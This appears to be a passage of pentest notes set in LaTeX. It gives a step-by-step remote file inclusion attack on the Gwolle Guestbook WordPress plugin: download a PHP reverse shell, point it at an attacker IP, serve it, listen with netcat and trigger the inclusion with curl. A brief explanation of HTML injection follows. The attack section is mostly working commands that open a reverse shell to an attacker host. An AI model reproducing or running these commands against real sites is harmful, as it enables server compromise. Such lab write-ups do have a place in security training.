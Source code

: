 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  download php reverse shell example

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{wget}\NormalTok{ http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz}
\FunctionTok{tar}\NormalTok{ -xf php-reverse-shell-1.0.tar.gz}
\FunctionTok{mv}\NormalTok{ php-reverse-shell-1.0/php-reverse-shell.php wp-load.php}
\FunctionTok{sed}\NormalTok{ -i }\StringTok{'s/127.0.0.1/<attacker_ip>/'}\NormalTok{ wp-load.php}
\FunctionTok{sed}\NormalTok{ -i }\StringTok{'s/1234/443/'}\NormalTok{ wp-load.php}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  listen to port 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  send the \textbf{RFI}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://127.0.0.1/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<attacker_ip/"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\textbf{That's it}

\hypertarget{html-injection}{%
\section*{HTML Injection}\label{html-injection}}

\textbf{HTML Injection} is a vulnerability that allows people to insert, most probably via a input text, a html tag. This vulnerability can
be verified in a forum or a notes application for example by inserting \texttt{\textless{}h1\textgreater{}test\textless{}/h1\textgreater{}} or a \texttt{\textless{}marquee\textgreater{}this\ note\ will\ move\textless{}/marquee\textgreater{}} and if the
result is interpreted, that means that the application is vulnerable to HTML Injection and most probably to \textbf{XSS Injection}
\end{document}
